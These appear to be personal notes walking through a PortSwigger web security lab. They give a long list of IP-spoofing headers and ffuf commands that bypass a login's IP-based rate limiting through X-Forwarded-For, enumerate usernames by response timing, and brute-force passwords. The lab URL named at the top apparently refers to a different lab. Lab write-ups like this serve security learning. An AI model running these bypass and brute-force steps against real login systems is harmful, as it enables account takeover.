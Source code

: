 https://portswigger.net/web-security/authentication/other-mechanisms/lab-password-reset-broken-logic

In this lab our IP is beeing blocked
![[Pasted image 20241105104052.png]]
Normally you are banned by an IP and the lab description confirms that. Let's send fuzz with the most commom [[IP_Spoofing_Headers]] headers
```sh
echo "CACHE_INFO: 127.0.0.1
CF_CONNECTING_IP: 127.0.0.1
CF-Connecting-IP: 127.0.0.1
CLIENT_IP: 127.0.0.1
Client-IP: 127.0.0.1
COMING_FROM: 127.0.0.1
CONNECT_VIA_IP: 127.0.0.1
FORWARD_FOR: 127.0.0.1
FORWARD-FOR: 127.0.0.1
FORWARDED_FOR_IP: 127.0.0.1
FORWARDED_FOR: 127.0.0.1
FORWARDED-FOR-IP: 127.0.0.1
FORWARDED-FOR: 127.0.0.1
FORWARDED: 127.0.0.1
HTTP-CLIENT-IP: 127.0.0.1
HTTP-FORWARDED-FOR-IP: 127.0.0.1
HTTP-PC-REMOTE-ADDR: 127.0.0.1
HTTP-PROXY-CONNECTION: 127.0.0.1
HTTP-VIA: 127.0.0.1
HTTP-X-FORWARDED-FOR-IP: 127.0.0.1
HTTP-X-IMFORWARDS: 127.0.0.1
HTTP-XROXY-CONNECTION: 127.0.0.1
PC_REMOTE_ADDR: 127.0.0.1
PRAGMA: 127.0.0.1
PROXY_AUTHORIZATION: 127.0.0.1
PROXY_CONNECTION: 127.0.0.1
Proxy-Client-IP: 127.0.0.1
PROXY: 127.0.0.1
REMOTE_ADDR: 127.0.0.1
Source-IP: 127.0.0.1
True-Client-IP: 127.0.0.1
Via: 127.0.0.1
WL-Proxy-Client-IP: 127.0.0.1
X_CLUSTER_CLIENT_IP: 127.0.0.1
X_COMING_FROM: 127.0.0.1
X_DELEGATE_REMOTE_HOST: 127.0.0.1
X_FORWARDED_FOR_IP: 127.0.0.1
X_FORWARDED: 127.0.0.1
X_IMFORWARDS: 127.0.0.1
X_LOCKING: 127.0.0.1
X_LOOKING: 127.0.0.1
X_REAL_IP: 127.0.0.1
X-Backend-Host: 127.0.0.1
X-BlueCoat-Via: 127.0.0.1
X-Cache-Info: 127.0.0.1
X-Forward-For: 127.0.0.1
X-Forwarded-By: 127.0.0.1
X-Forwarded-For-Original: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Forwarded-For: 127.0.0.1, 127.0.0.1, 127.0.0.1
X-Forwarded-Server: 127.0.0.1
X-Forwarded-Host: 127.0.0.1
X-From-IP: 127.0.0.1
X-From: 127.0.0.1
X-Gateway-Host: 127.0.0.1
X-Host: 127.0.0.1
X-Ip: 127.0.0.1
X-Original-Host: 127.0.0.1
X-Original-IP: 127.0.0.1
X-Client-IP: 127.0.0.1
X-Original-Remote-Addr: 127.0.0.1
X-Original-Url: 127.0.0.1
X-Originally-Forwarded-For: 127.0.0.1
X-Originating-IP: 127.0.0.1
X-ProxyMesh-IP: 127.0.0.1
X-ProxyUser-IP: 127.0.0.1
X-Real-IP: 127.0.0.1
X-Host: 127.0.0.1
X-Remote-Addr: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-True-Client-IP: 127.0.0.1
XONNECTION: 127.0.0.1
XPROXY: 127.0.0.1
XROXY_CONNECTION: 127.0.0.1
Z-Forwarded-For: 127.0.0.1
ZCACHE_CONTROL: 127.0.0.1
X-Custom-IP-Authorization: 127.0.0.1" | awk '{print $1}' | tr -d ':' >./IP-spoof.txt
```
Then fuzz it using pitch for
```sh
ffuf -u https://0a91005e044fd2db807d6c85009c004b.web-security-academy.net/login -d "username=1234&password=asd" -H "W1:W2" -X POST -w IP-spoof.txt:W1 -w /usr/share/seclists/Fuzzing/3-digits-000-999.txt:W2 -v -replay-proxy http://127.0.0.1:8080
```
And do a negative filtering from the request which not contain "`You have made too many incorrect login attempts. Please try again in 30 minute(s).`"
![[Pasted image 20241105134434.png]]
And the only header that appear is `X-Forwarded-For` so now we know which what header spoof our IP. We couldn't fuzz thre payloads, but if we submit the right username with a very long password it will cause a time out, so only test for username and a range of numbers
```sh
ffuf -u https://0a91005e044fd2db807d6c85009c004b.web-security-academy.net/login -d "username=W1&password=Youhavemadetoomanyincorrectloginattempts.Pleasetryagainin30minute(s).Youhavemadetoomanyincorrectloginattempts.Pleasetryagainin30minute(s).Youhavemadetoomanyincorrectloginattempts.Pleasetryagainin30minute(s).Youhavemadetoomanyincorrectloginattempts.Pleasetryagainin30minute(s).Youhavemadetoomanyincorrectloginattempts.Pleasetryagainin30minute(s).Youhavemadetoomanyincorrectloginattempts.Pleasetryagainin30minute(s)." -H "X-Forwarded-For: W2" -X POST -w /usr/share/seclists/Fuzzing/3-digits-000-999.txt:W2 -mode pitchfork -w username-list.txt:W1 >./ffuf_name.txt
```
Now we will look for the longest duaration 

```sh
awk -F 'Duration: ' '{print $2 " " $0}' ffuf_name.txt | sort -nr | head -n 1     
```
![[Pasted image 20241105141434.png]]
As this file will have annoying line escapes, the best way to find it is by doing `nano ffuf_name.txt` and look for that matches
![[Pasted image 20241105141508.png]]
Let's set that username and bruteforce the passwords
```sh
ffuf -u https://0a91005e044fd2db807d6c85009c004b.web-security-academy.net/login -d "username=ajax&password=W1" -H "X-Forwarded-For: W2" -X POST -w /usr/share/seclists/Fuzzing/3-digits-000-999.txt:W2 -mode pitchfork -w password-list.txt:W1 -replay-proxy http://127.0.0.1:8081 
```
Now go to the proxy and look for the 302 redirect
![[Pasted image 20241105143254.png]]
